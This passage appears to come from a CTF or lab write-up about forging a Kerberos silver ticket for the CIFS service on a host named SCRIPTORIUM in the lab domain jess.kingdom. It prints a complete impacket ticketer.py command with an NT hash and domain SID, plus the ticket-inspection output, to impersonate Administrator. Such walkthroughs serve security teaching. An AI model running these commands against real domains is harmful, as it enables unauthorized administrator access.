 #### Silver Ticket

Similarly, since `SCRIPTORIUM$` is technically a service account that services `SPNs` that are applied on `SCRIPTORIUM`. We can forge a silver ticket for the `cifs/SCRIPTORIUM.jess.kingdom` service to ourselves as `Administrator`:

```
ticketer.py -nthash 'cdc728e1aefc4e997d6d895fbbaec3f9' -domain-sid 'S-1-5-21-54816899-3316220569-2952399223' -domain 'jess.kingdom' -spn 'cifs/SCRIPTORIUM.jess.kingdom' -user-id 500 Administrator
```

![](./assets/img/sincon/1c37216768894c03e2c40dd178c8e0e0.png)

```
describeTicket.py Administrator.ccache 
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 616e684567724f664d7a6b536b6f7073
[*] User Name                     : Administrator
[*] User Realm                    : JESS.KINGDOM
[*] Service Name                  : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm                 : JESS.KINGDOM
[*] Start Time                    : 26/05/2025 02:55:22 AM
[*] End Time                      : 24/05/2035 02:55:22 AM
[*] RenewTill                     : 24/05/2035 02:55:22 AM
[*] Flags                         : (0x50a00000) forwardable, proxiable, renewable, pre_authent
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : YW5oRWdyT2ZNemtTa29wcw==
[*] Kerberoast hash               : ..redacted..
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : cifs/SCRIPTORIUM.jess.kingdom
[*]   Service Realm               : JESS.KINGDOM
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```

This ticket can be used for Kerberos authentication to `SCRIPTORIUM` as `Administrator`, exactly the same as before:

![](./assets/img/sincon/b5cec9edfa607d1f5df3eb9aaf29f974.png)
